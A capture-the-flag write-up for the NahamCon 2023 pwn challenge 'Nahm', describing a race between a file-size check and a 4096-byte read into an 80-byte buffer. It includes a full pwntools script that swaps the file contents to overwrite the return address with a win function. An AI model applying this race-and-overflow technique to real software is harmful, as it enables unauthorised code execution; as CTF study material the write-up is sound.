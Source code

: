 ```yaml
---
title: Nahm  , NahamCon 2023
author: megachar0x01
date: 2023-06-18
categories: [Pwn, amd64, ctf]
---
```



## Description :

The program is designed to work with a specific file. First, it prompts the user to enter the name of the file. If the file name matches the keyword "flag," the program terminates immediately. Otherwise, it proceeds to check the properties of the file. If the file is a symlink, an error is thrown indicating that it is a symlink file.

Next, the program verifies if the file size is less than 81 bytes. If the file size meets this condition, the program waits for user input. Once the user provides input, a function is executed to open the file and copy 4096 bytes into a buffer of 80 bytes, creating a potential buffer overflow situation.

To exploit this vulnerability, you can create a file with a size less than 80 bytes and wait until the program prompts for user input. At this point, you can add exploit code to the file, making sure it exceeds 80 bytes. Since no further checks are performed, the exploit code can grant you shell access.

## Vulnerable Code


<img src="https://i.imgur.com/L8YsI41.png" alt="vuln_1">
<img src="https://i.imgur.com/70Jbtf3.png" alt="img_1">
<img src="https://i.imgur.com/70Jbtf3.png" alt="img_1">
<img src="https://i.imgur.com/zWPibMU.png" alt="img_1">
<img src="https://i.imgur.com/ixymOko.png" alt="img_1">


## Protection


<img src="https://i.imgur.com/FxGtXUy.png" alt="img_1">

## Exploit:

```python
#!/usr/bin/python3
from pwn import *
import struct

# Set the log level to control the verbosity of logs
context.log_level = 'error'

# Allows you to switch between local/GDB/remote from terminal
def start(argv=[], *a, **kw):
    if args.GDB:  # Set GDBscript below
        return gdb.debug([exe] + argv, gdbscript=gdbscript, *a, **kw)
    elif args.REMOTE:  # ('server', 'port')
        return remote(sys.argv[1], sys.argv[2], *a, **kw)
    else:  # Run locally
        return process([exe] + argv, *a, **kw)


# Specify GDB script here (breakpoints etc)
gdbscript = '''
break *vuln+109
continue
'''.format(**locals())

# Define the path to the binary
exe = './bin'
elf = context.binary = ELF(exe, checksec=False)

# Create a payload for the exploit
payload = b""
payload += b"A"*80

# Write the payload to a file (function definition not provided)
write("1", payload)

# Start the process
io = start()

# Define the file path to send to the target binary
file_path = b"1"  # For remote server, use "/tmp/1"

# Send the file path to the target binary
io.sendlineafter(b"Enter file: ", file_path)

# Create another payload for the exploit
payload = b""
payload += b"A"*104
payload += p64(elf.sym.winning_function)

# Write the payload to a file
write("1", payload)  # For remote servers, use "/tmp/1" due to write permission in the home folder

# Send a newline character to the target binary
io.sendline()

# Switch to interactive mode to interact with the exploited binary
io.interactive()

```
